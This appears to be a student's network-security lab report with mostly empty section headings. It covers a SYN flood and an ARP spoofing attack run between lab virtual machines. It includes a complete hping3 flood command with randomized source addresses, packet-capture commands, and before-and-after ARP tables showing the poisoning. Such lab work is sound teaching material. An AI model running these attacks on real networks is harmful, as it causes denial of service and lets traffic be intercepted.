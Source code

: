 # CENG489 PA2

This report is intended to explain the process and results of the attacks made in different settings for the sake of the assignment. For the ease of readability and grading, the report is divided into sections, each for one single attack.

## Attack 1: SYN Flood

### Description

### Attack Scenario

#### Network Topology

#### Attack Process

```bash
python3 scripts/01-syn-flood/server.py
```

```bash
python3 scripts/01-syn-flood/client.py
```

```bash
sudo hping3 -c 150000 -d 120 -S -w 64 -p 4444 --flood --rand-source 192.168.56.101
```

```bash
sudo tcpdump -i enp0s8 -w 01-syn-flood-attacker.pcap -s 96
```

```bash
sudo tcpdump -i enp0s8 -w 01-syn-flood-server.pcap -s 96
```

```bash
serving at port 4444
192.168.56.102 - - [21/Jun/2022 14:05:46] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:47] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:49] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:50] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:51] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:52] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:53] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:54] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:55] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:56] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:57] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:58] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:59] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:00] "GET / HTTP/1.1" 200 - # Attack starts here
192.168.56.102 - - [21/Jun/2022 14:06:02] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:04] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:05] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:12] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:33] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:36] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:39] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:41] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:07:01] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:07:02] "GET / HTTP/1.1" 200 -
```

![](images/01_attacker.png)

![](images/01_server.png)

### Results

## Attack 2: ARP Spoofing

### Description

### Attack Scenario

#### Network Topology

#### Attack Process

Before the attack:

```bash
vagrant@client:~$ arp -a
? (192.168.56.100) at 08:00:27:03:7e:13 [ether] on enp0s8
? (192.168.56.101) at 08:00:27:11:bd:83 [ether] on enp0s8
_gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
```

After the attack:

```bash
vagrant@client:~$ arp -a
? (192.168.56.100) at 08:00:27:03:7e:13 [ether] on enp0s8
? (192.168.56.101) at 08:00:27:03:7e:13 [ether] on enp0s8
_gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
```

![](images/02-attacker-poisoning.png)

It can be seen that before the attack, client sends the HTTP request packets to the server with the MAC address `08:00:27:11:bd:83`:

![](images/02-client-before-poisoning.png)

Also, after the spoofing, client starts sending the same HTTP packets to the server but with MAC address `08:00:27:03:7e:13`:

![](images/02-client-after-poisoning.png)

### Results

## APPENDIX

### Repository Structure

